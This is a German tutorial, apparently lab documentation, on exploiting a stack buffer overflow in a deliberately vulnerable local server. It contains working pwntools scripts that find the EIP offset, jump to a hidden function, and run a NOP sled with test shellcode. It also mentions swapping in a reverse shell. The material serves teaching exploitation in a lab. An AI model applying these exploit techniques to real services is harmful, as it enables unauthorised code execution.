

# Dynamische Analyse mit GDB
Nachdem innerhalb der statischen Analyse mit Ghidra der **Buffer Overflow** in `get_password_input()` entdeckt wurde, soll hier beschrieben werden, wie diese Schwachstelle ausgenutzt werden kann, um Kontrolle über den Instruction Pointer (EIP) zu erhalten. Das erlaubt, den Programmfluss umzulenken und eigenen Shellcode auszuführen.


In realen Szenarien hat man natürlich keinen direkten Zugriff auf GDB auf dem Zielsystem. Dennoch ist die dynamische Analyse ein wichtiger Bestandteil der Exploit-Entwicklung: Hat man Zugriff auf die Binary (z. B. durch Download oder Leak), kann man sie lokal in einer Debugging-Umgebung wie GDB oder pwndbg analysieren.

Durch gezielte Eingaben und Beobachtung des Speicher- und Registerzustands kann man Rückschlüsse ziehen, wie das Programm intern arbeitet, an welcher Stelle ein Overflow entsteht, und wie sich Kontrolle über den Programmfluss erlangen lässt.

Sobald der Exploit lokal erfolgreich getestet wurde, inklusive der Kontrolle über den Instruction Pointer und ggf. des eigenen Shellcodes, kann er auf das Remote-Zielsystem übertragen werden.

Für jedes der folgenden Tests wird lokal der Server `vuln_noprot` in einem Terminal gestartet und auf eine Verbindung gewartet. Wir als Angreifer verbinden uns und versenden die entsprechende Payload, um das Programmverhalten nachzuvollziehen. 

## Inhalte
- [Offset für EIP-Kontrolle](#offset-für-eip-kontrolle)
  - [Payload senden](#payload-senden)
  - [Analyse mit GDB](#analyse-mit-gdb)
  - [Offset bestimmen](#offset-bestimmen)
- [Programmfluss ändern](#programmfluss-ändern)
- [SIGTRAP](#sigtrap)
  - [Payload senden](#payload-senden-1)
  - [Shellcode-Ausführung prüfen](#shellcode-ausführung-prüfen)
- [Hello Shell!](#hello-shell)
  - [Shellcode](#shellcode)
  - [Ergebnis](#ergebnis)


---
---


## Offset für EIP-Kontrolle

Um einen Buffer Overflow gezielt ausnutzen zu können, muss zunächst der **Offset** bestimmt werden – also die exakte Anzahl an Bytes, die nötig sind, um den **Instruction Pointer (EIP)** zu überschreiben. Dafür nutzen wir die Funktion `cyclic` aus der Python-Library [pwntools](https://docs.pwntools.com/en/stable/).

Diese erzeugt ein eindeutiges Byte-Muster, das es erlaubt, anhand des gecrashten EIP-Werts genau zurückzurechnen, an welcher Stelle der Overflow stattgefunden hat.

---

### Payload senden

Wir starten den Server `vuln_noprot` unter `gdb` und führen dann auf der Kali-Maschine folgendes Skript aus, das einen 100-Byte langen Payload generiert und versendet:

```python
# /examples/vuln_server/exploits/cyclic_load.py
from pwn import *

context.update(arch='i386', os='linux')
r = remote('127.0.0.1', 4444)

r.recvuntil(b"Username: ")
r.sendline(b"bob")

r.recvuntil(b"Password: ")
payload = cyclic(100, n=4)   # einzigartiges Pattern für 32-bit
r.send(payload)

r.close()
```

`payload = cyclic(100, n=4)` erzeugt 100 einzigartige Bytes, wobei n=4 der Architektur (32-bit) entspricht. Nach dem Versand der Payload crasht das Programm – wie erwartet – mit einem **Segmentation Fault**:

```
Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```
Der EIP wurde mit `0x61616174` überschrieben, ein Wert aus dem cyclic-Pattern.

---

### Analyse mit GDB
In GDB können wir uns mit `info register` die aktuellen Werte aller CPU-Register ausgeben und mit `x/20xw $esp` den aktuellen Inhalt des Stacks ab dem Stack-Pointer (ESP) untersuchen:


Neben dem EIP mit Wert `0x61616174`, ist der Stack (ab `ESP`) gefüllt mit weiteren Pattern-Werten, was bestätigt, dass unsere Payload wie gewünscht auf dem Stack angekommen ist. Auch die Register `EBP` und `EBX` enthalten Teile des Patterns, was typisch für einen Buffer Overflow ist.

### Offset bestimmen
Nachdem die Payload erfolgreich einen Absturz verursacht hat, wollen wir herausfinden, an welcher Stelle im Stack der Instruction Pointer (EIP) überschrieben wurde. Dazu nutzen wir die Funktion `cyclic_find()`, die uns genau sagt, wie viele Bytes im Pattern nötig waren, um den EIP zu erreichen:

```python
>>> cyclic_find(0x6174616e, n=4)
76      # <-- 76 bytes to reach EIP
```

Der Wert erklärt sich durch den Aufbau des Stack-Frames innerhalb der Funktion `get_password_input()`:



Zuerst werden im Speicher `64 Byte` für den lokalen Eingabepuffer `pw_input[]` reserviert. Direkt im Anschluss folgen `4 Byte`, die das Register `EBX` aufnehmen, da dieses von der Funktion typischerweise gesichert wird. Danach folgen weitere `4 Byte` für den `EBP` (Base Pointer), der zur Wiederherstellung des vorherigen Stack Frames nach Funktionsende dient. 

Und schließlich, nach insgesamt 72 Byte, liegen die 4 Byte für den Instruction Pointer (EIP), also die Rücksprungadresse. Die Bytes ab Position 76 in unserer Payload landen somit exakt an der Stelle im Speicher, an die der EIP geschrieben wird.

---

Der Exploit muss also genau 76 Byte übergeben, um den Instruction Pointer (EIP) zu erreichen und zu überschreiben. Mit dieser Erkenntnis kann nun gezielt ein Wert auf den EIP geschrieben werden, um den Programmfluss zu ändern, wie zur `secret()`-Funktion oder zu Shellcode.


---
---

## Programmfluss ändern

Mit dem zuvor bestimmten Offset von 76 Bytes können wir den Programmfluss gezielt manipulieren. Ziel ist es nun, eine Funktion aufzurufen, die im Binary existiert, aber nie regulär ausgeführt wird.

In Ghidra fällt beim Durchsehen der Funktionen eine `secret()`-Funktion auf, die scheinbar nie aufgerufen wird. Der Code hier gibt einfach die Meldung `"You've reached the secret function!"` aus. 

Doch solche versteckten Funktionen können potenziell gefährlich sein, wenn sie privilegierte Befehle ausführen oder sogar system("/bin/sh") enthalten.
Solche Funktionen könnten ursprünglich zu Debug-Zwecken eingebaut worden sein und versehentlich im Release-Build beibehalten. Ein Angreifer, der sie über einen Buffer Overflow gezielt anspringen kann, hätte damit eine einfache Möglichkeit, Code auszuführen.


Die Startadresse der Funktion sehen wir in Ghidra grün markiert, in diesem Fall: `0x08049246`. Wir nutzen nun diese Adresse, um sie über den Overflow in den Instruction Pointer zu schreiben.

Das folgende Exploit-Skript sendet genau diese Adresse als Rücksprungadresse nach dem 76-Byte-Puffer:

```python
# /examples/vuln_server/exploits/call_secret.py
from pwn import *

context.update(arch='i386', os='linux')
r = remote('127.0.0.1', 4444)

r.recvuntil(b"Username: ")
r.sendline(b"bob")

r.recvuntil(b"Password: ")

offset = 76
secret_addr = p32(0x08049246)
payload = b"A" * offset + secret_addr

r.send(payload)
r.close()
```

Wird das Skript ausgeführt sehen wir auf der Serverseite:

```bash
You've reached the secret function!
```

Damit wurde der Programmfluss erfolgreich manipuliert. `EIP` zeigt auf die secret-Funktion, obwohl diese ursprünglich nie Teil des Ablaufs war. 

---
---

## SIGTRAP
Jetzt geht es darum eigenen Code in den Buffer einzufügen und auszuführen. In diesem Beispiel senden wir zehnmal den Byte-Wert `0xCC`, was der Maschinenbefehl `INT 3` ist. Das ist ein Software-Breakpoint, der das Signal SIGTRAP auslöst. Das ist nützlich, um zu prüfen, ob der Code, den wir senden, tatsächlich ausgeführt wird

Damit der `EIP` beim Overflow auf unseren Shellcode zeigt, benötigen wir eine sogenannte NOP-Rutsche (NOP Sled). `NOP` steht für "No Operation" und hat den Bytwert `0x90`. Wie der Name sagt, tut diese Instruktion "nichts", sie wartet nur einen Zyklus ab.

Wenn wir viele von den `NOPS` vor dem eigentlichen Shellcode platzieren, müssen wir nur eine Adresse eines `NOPS` nehmen, um in den  `EIP` zu schreiben. Der  `EIP` springt dann zum `NOP` und gleitet durch die restlichen NOP-Instruktionen, bis er am Shellcode angelangt ist.

### Payload senden
```python
from pwn import *

context.update(arch='i386', os='linux')
r = remote('127.0.0.1', 4444)

r.recvuntil(b"Username: ")
r.sendline(b"bob")

r.recvuntil(b"Password: ")

offset = 76

shellcode = b"\xcc" * 10                        # SIGTRAP INT 3 (breakpoint)
nop_sled = b"\x90" * (offset - len(shellcode))  # NOP (no operation)
pre_eip = nop_sled + shellcode                 

ret_add = p32(0xffffc6f0)       
payload = pre_eip + ret_add

r.send(payload)
r.close()
```

Im Skript setzen wir den Offset auf 76, und schreiben am Ende die Adresse des Buffers als Rücksprungziel, die durch die DEBUG-Info der Input-Tests bekannt ist. Die genaue Adresse kann sich ohne GDB leicht verschieben, weshalb mehrere Tests nötig sein können.

---

### Shellcode-Ausführung prüfen
Um zu prüfen, ob unser Shellcode tatsächlich auf dem Stack liegt und ausgeführt wird, setzen wir in GDB einen Breakpoint direkt nach dem `read()`-Aufruf in der Funktion `get_password_input`. Hier sehen wir das Disassembly der Funktion, blau markiert ist die Speicherleseoperation:


Nach dem Erreichen des Breakpoints können wir den Inhalt des Stacks untersuchen.  
Mit dem Befehl `x/100xb $esp` sehen wir, dass sich zuerst viele `0x90`-Bytes (NOPs) und danach die `0xCC`-Instruktionen im Speicher befinden:


Führen wir das Programm weiter aus, wird der `EIP` auf unsere Shellcode-Adresse gesetzt – der Prozessor landet in der NOP-Rutsche und trifft schließlich auf die `INT 3`-Instruktionen. Wie erwartet, bricht das Programm mit dem Signal **SIGTRAP** ab.


---
---


## Hello Shell!
Statt einer simplen `INT 3`-Trap wie zuvor, schreiben wir nun einen vollständigen Shellcode, der den String `"Hello, Shell!"` auf `stdout` ausgibt und anschließend sauber beendet.


### Shellcode 
Dafür wird die Funktion `asm()` aus der [`pwntools`](https://docs.pwntools.com/en/stable/) Library verwendet, um den Shellcode direkt in x86-Assembler zu schreiben:

```py
# /examples/vuln_server/hello_shell.py
shellcode = asm('''
    xor    eax, eax                /* clear eax (we’ll use it for zero and syscall numbers) */
    xor    ebx, ebx                /* clear ebx (we’ll use it for exit code and later stdout fd) */
    push   eax                     /* push a 0 dword to serve as string terminator */

    mov    dword ptr [esp],     0x6c6c6548   /* write "Hell" at [esp] */
    mov    dword ptr [esp+4],   0x53202c6f   /* write "o, S" at [esp+4] */
    mov    dword ptr [esp+8],   0x6c6c6568   /* write "hell" at [esp+8] */
    mov    byte  ptr [esp+12],  0x21         /* write '!' at [esp+12] */

    mov    ecx, esp               /* ecx = pointer to our string */
    mov    edx, 13                /* edx = length of "Hello, Shell!" */
    mov    ebx, 1                 /* ebx = file descriptor 1 (stdout) */
    mov    al, 4                  /* al = syscall number 4 (sys_write) */
    int    0x80                   /* invoke kernel: write(1, esp, 13) */

    xor    ebx, ebx               /* ebx = 0 (exit code) */
    mov    al, 1                  /* al = syscall number 1 (sys_exit) */
    int    0x80                   /* invoke kernel: exit(0) */
''')
```

**Funktionsweise des Shellcodes**:
- Register `EAX` und `EBX` werden auf 0 gesetzt.
- Anschließend wird am Stack der Null-Terminator `\x00` sowie der String `"Hello, Shell!"` gespeichert.
- `ECX` zeigt auf den String, `EDX` enthält die Länge (`13`), und `EBX = 1` steht für `stdout`.
- Dann wird mit `int 0x80` der Systemaufruf `write()` aufgerufen (Syscall Nummer 4).
- Zum Schluss wird der Prozess über `exit(0)` beendet (Syscall Nummer 1).

Wie zuvor wird vor den Shellcode die NOP-Rutsche gelegt und der EIP mit einer Adresse zur NOP-Instruktion überschrieben.

---

### Ergebnis
Nach dem Start des Servers und Senden der Payload sehen wir die erfolgreiche Ausgabe im Terminal:


Damit ist gezeigt, dass wir die Kontrolle über den Programmfluss haben und **eigenen Code im Stack ausführen können**.  

---

In einem echten Angriffsszenario könnte dieser Shellcode nun durch eine Payload ersetzt werden, die  eine **Reverse Shell** erstellt. Die Library [`pwntools`](https://docs.pwntools.com/en/stable/) bietet dafür passende Funktionen zur Shellcode-Generierung, wie `shellcraft.sh()`.

